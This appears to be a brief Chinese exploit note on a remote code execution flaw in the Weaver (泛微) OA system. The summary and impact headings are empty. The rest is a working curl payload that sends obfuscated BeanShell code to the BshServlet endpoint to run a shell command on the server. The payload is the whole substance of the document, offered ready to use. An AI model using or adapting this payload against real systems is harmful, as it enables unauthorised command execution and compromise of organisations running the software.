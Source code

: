 # 泛微OA 管理系统RCE漏洞

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程


```bash
curl http://url:8000/weaver/bsh.servlet.BshServlet -d 'bsh.script=eval%00("ex"%2b"ec(\"whoami\")");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw'
```